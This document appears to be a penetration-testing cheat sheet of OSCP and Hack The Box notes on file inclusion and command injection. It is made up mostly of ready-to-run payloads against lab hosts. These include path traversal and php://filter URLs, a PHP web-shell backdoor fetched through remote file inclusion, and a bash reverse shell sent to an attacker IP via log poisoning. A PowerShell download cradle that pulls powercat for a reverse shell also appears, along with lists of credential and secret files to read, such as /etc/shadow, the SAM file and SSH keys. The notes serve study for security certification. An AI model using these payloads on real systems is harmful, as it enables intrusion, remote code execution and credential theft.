

## LFI / RFI

ON OSCP, if you are able to find LFI anywhere, hunt down the SSH keys first

### Links
- [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)
- [Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/)
- [LFI Medium Article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601)

### Quick Notes

```
Directory Traversal

Curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log

 

LFI

Curl http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>

 

PHP Wrapper

Curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

Curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

 

RFI

Curl http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simplebackdoor.php&cmd=ls

 

Command Injection:

curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive
```


### Local File Inclusion:

1. Check if you can convert LFI to RFI
2. Try adding %00 to bypass the added extension on the server side. (Works on PHP < 5.3)
3. You can even add? to bypass it.
4. If you can't read php files: **php://filter/convert.base64-encode/resource=index**
5. Try reading important files from the system other than **passwd.** Enumeration might help in determining which files might be important. Maybe try checking the config files for the web app

### WINDOWS FILES

```
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

### LINUX FILES

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/resource=/etc/passwd
```

### LOG FILES

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

### RFI

```
file=data:text/plain,hello world
file=data:text/plain,<?php echo shell_exec("dir") ?>
```

### LFI and RFI Examples

```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/a pache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

w/php wrapper:

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64encode/resource=admin.php

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```



### Remote File Inclusion

```
//Simple PHP backdoor
<?php 
if(isset($_REQUEST['cmd'])){ 
	echo "<pre>"; $cmd = ($_REQUEST['cmd']); 
	system($cmd); echo "</pre>"; die;
?}>

Then:

python3 -m http.server 80
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simplebackdoor.php&cmd=ls"


```

### Command Injection

```

curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive

curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive

try system access with power cat:
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -nvlp 4444

*This encoded: ```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```*
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive


```


### Notes from HTB StreamIO for LFI

```
If you see this, maybe you can LFI: **?user=**

Fuzz it:
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u https://streamio.htb/admin/index.php?message=FUZZ -b PHPSESSID=8ldbs678ajgeum49okb767249a -fs 1678

ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u https://streamio.htb/admin/index.php?FUZZ= -b PHPSESSID=8ldbs678ajgeum49okb767249a -fs 1678

ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u https://streamio.htb/admin/index.php?debug=FUZZ -b PHPSESSID=8ldbs678ajgeum49okb767249a -fs 1712


ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u https://streamio.htb/admin/FUZZ.php -b PHPSESSID=8ldbs678ajgeum49okb767249a


Also worth noting here, once we figured out we could do LFI via the include command, I used burp to repeat, changed from GET to POST, and added the include line at the end, but still needed to also manually add the Content:type line:

POST /admin/index.php?debug=master.php HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=9acr1fp7e2rjcfnhgat8l8hnfs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

include=http://10.10.14.76/rce.php
```